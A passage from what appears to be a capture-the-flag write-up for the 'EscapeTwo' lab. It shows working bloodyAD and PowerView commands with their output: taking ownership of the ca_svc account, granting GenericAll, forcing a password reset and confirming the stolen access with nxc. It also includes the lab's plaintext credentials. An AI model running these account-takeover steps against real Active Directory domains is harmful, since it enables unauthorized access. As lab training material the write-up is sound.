 we will do same steps for them all

here is full commands

```bash
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set owner ca_svc ryan     
[*] Current owner information below
[*] - SID: S-1-5-21-548670397-972687484-3496335370-512
[*] - sAMAccountName: Domain Admins
[*] - distinguishedName: CN=Domain Admins,CN=Users,DC=sequel,DC=htb
[*] OwnerSid modified successfully!
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p 'WqSZAF6CysDQbGb3' add genericAll ca_svc ryan         
[+] ryan has now GenericAll on ca_svc
➜  escapetwo bloodyAD --host DC01.sequel.htb -d sequel.htb -u ryan -p WqSZAF6CysDQbGb3 set password ca_svc 'NewPassword123!'
[+] Password changed successfully!
```

and bommm!!!

```bash
➜  escapetwo nxc smb DC01.sequel.htb -u ca_svc -p 'NewPassword123!'
SMB         10.10.11.51     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.51     445    DC01             [+] sequel.htb\ca_svc:NewPassword123! 
```

### WriteOwner-Windows-Abuse

```powershell
*Evil-WinRM* PS C:\Users\ryan\Documents> upload PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> . .\PowerView.ps1

*Evil-WinRM* PS C:\Users\ryan\Documents> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainObjectOwner -Identity CA_SVC -OwnerIdentity RYAN

*Evil-WinRM* PS C:\Users\ryan\Documents> Add-DomainObjectAcl -TargetIdentity CA_SVC -PrincipalIdentity RYAN -Rights All

*Evil-WinRM* PS C:\Users\ryan\Documents> Set-DomainUserPassword -Identity CA_SVC -AccountPassword $UserPassword
```

Nice lets check ca_svc.

## ADCS
